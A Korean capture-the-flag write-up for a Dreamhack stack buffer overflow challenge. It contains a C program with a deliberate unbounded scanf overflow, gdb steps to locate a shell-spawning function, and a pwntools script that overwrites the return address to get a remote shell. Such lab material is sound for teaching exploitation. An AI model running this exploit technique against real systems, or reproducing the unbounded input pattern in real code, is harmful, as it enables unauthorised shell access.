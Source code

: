 # 문제 파일
```
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

  1) 문제 파악
     - main함수를 보면 0x28크기의 버퍼가 있다. %s는 문자열 길이를 제한해서 받지 않기 때문에 버퍼 오버플로우가 발생할 수 있다.
     - 40바이트 이상의 데이터를 넣어서 main함수의 반환 주소를 셸을 실행하는 코드가 있는 get_shell함수로 변경해야 한다.
    
  2) 컴파일 하기
     - 우선 이 코드를 컴파일해서 get_shell()함수 저장된 메모리 주소를 알아야 한다.

  3) gdb로 get_shell가 저장된 메모리 주소를 파악하기
     - $ gdb ./rao    // 가상 환경에서 rao파일을 로드한다.
     - $ p &get_shell  // get_shell의 시작 주소를 확인한다. 또는  $ info address get_shell 명령어를 사용해도 좋다.
     -  ~~0x4011dd  라는 주소가 나왔다.~~

     - 주소가 잘못되었다. 내가 직접 컴파일한 바이너리가 서버에 있는 바이너리와 동일하다는 보장이 없다. **즉, 컴파일 환경과 실행 환경에 따라 함수의 주소가 달라질 수 있다**. 문제에서 바이너리도 함께 주는 데 이 파일을 사용해야 한다...

     - gdb를 활용해 주어진 바이너리를 디버깅한다. p get_shell 로 심볼 테이블 조회를 한 결과 0x4006aa라는 주소를 알아냈다.
       
    
  5) 익스플로잇 하기
     - 페이로드 파일을 만들자.
       ```
       from pwn import *
        
        # 외부 서버 정보
        host = "host3.dreamhack.games"  # 예: "host3.dreamhack.games"
        port = 11480  # 해당 서버의 포트 번호
        
        # 페이로드 생성
        payload = b"A" * 0x30  # 버퍼 크기
        payload += b"B" * 0x8  # rbp 덮기
        payload += p64(0x4006aa)  # get_shell 함수 주소
        
        # 서버와 연결
        p = remote(host, port)
        
        # 페이로드 전송
        p.sendline(payload)
        
        # 상호작용 모드 (쉘 확인)
        p.interactive()
       ```
